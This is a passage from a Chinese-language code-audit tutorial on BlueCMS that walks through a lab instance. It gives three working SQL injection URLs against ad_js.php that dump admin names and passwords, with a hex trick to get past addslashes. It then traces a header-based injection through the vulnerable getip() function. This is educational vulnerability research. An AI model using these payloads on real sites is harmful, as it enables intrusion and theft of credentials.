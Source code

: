 那么这样一个 SQL 注入也就出来了。唯一要注意的是其输出，是在注释里面的：

```
echo "<!--\r\ndocument.write(\"".$ad_content."\");\r\n-->\r\n";
```

payload 如下：

```
view-source:http://192.168.2.113/bluecms/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()
view-source:http://192.168.2.113/bluecms/ad_js.php?ad_id=1 union select  1,2,3,4,5,6,group_concat(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
view-source:http://192.168.2.113/bluecms/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,group_concat(admin_name,0x3a,pwd)%20from%20blue_admin
```

ps：表名需要使用 hex，否则就会需要输入单引号，被 addslashes 所过滤。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoAXjU8iazrNYKZC6A9lBekl9jrt1gviaghKQBj3OSMyPjLUKibibeDbA1Wqg/640?wx_fmt=png)

第二处、guest_book.php(XFF 注入)：

因为前面我们已经说过了，没有对 $_SERVER 进行过滤，所以使用 X-Forwarded-For 或者 CLIENT-IP 可以伪装 ip 进行 SQL 注入。

此处有一个 onlineip，目测可能是 ip 获取的地方：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoAaQ5NANwFSicibezV0fzo1t1qImibjNWATWPf99l9o0r0ibdAIVcdMVzicOQ/640?wx_fmt=png)

跟踪该变量：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoAp1JdVGVBP8mHL4z4cLnsPSTmd2GUBy4uAffezDdJmaXIMDXvGnk0EQ/640?wx_fmt=png)

发现其是 getip 的值，继续跟踪该函数：

```
function getip()
{
   if (getenv('HTTP_CLIENT_IP'))
   {
      $ip = getenv('HTTP_CLIENT_IP'); 
   }
   elseif (getenv('HTTP_X_FORWARDED_FOR')) 
   { //获取客户端用代理服务器访问时的真实ip 地址
      $ip = getenv('HTTP_X_FORWARDED_FOR');
   }
   elseif (getenv('HTTP_X_FORWARDED')) 
   { 
      $ip = getenv('HTTP_X_FORWARDED');
   }
   elseif (getenv('HTTP_FORWARDED_FOR'))
   {
      $ip = getenv('HTTP_FORWARDED_FOR'); 
   }
   elseif (getenv('HTTP_FORWARDED'))
   {
      $ip = getenv('HTTP_FORWARDED');
   }
   else
   { 
      $ip = $_SERVER['REMOTE_ADDR'];
   }
   return $ip;
}
```
